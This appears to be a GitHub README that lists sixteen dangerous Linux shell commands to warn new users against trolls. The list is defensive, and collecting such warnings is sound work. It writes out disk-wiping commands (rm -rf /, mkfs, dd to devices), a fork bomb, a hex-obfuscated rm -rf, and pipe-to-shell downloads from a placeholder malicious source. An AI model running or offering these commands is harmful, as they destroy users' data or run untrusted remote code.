 # dangerous-shell-commands
List of dangerous shell commands to prevent new linux users to get tricked by trolls. Feel free to contribute
# List
1. rm -rf /
2. :(){ :|: & };:
3. mkfs /dev/sda1 
4. cat /dev/zero > /dev/sda1
5. wget url -O - | sh --
6. curl url | sh
7. dd if=/dev/zero of=/dev/sda2
8. echo 726d202d7266202a | xxd -r -p
9. dd if=/dev/random of=/dev/port
10. echo 1 > /proc/sys/kernel/panic
11. cat /dev/port or cat /dev/mem
12. cat /dev/zero > /dev/mem
13. sudo chmod -r 444 / or sudo chown -r nobody:nobody /
14. last | reboot
15. mv /home/user/* /dev/null
16. wget http://malicious_source -O- | sh
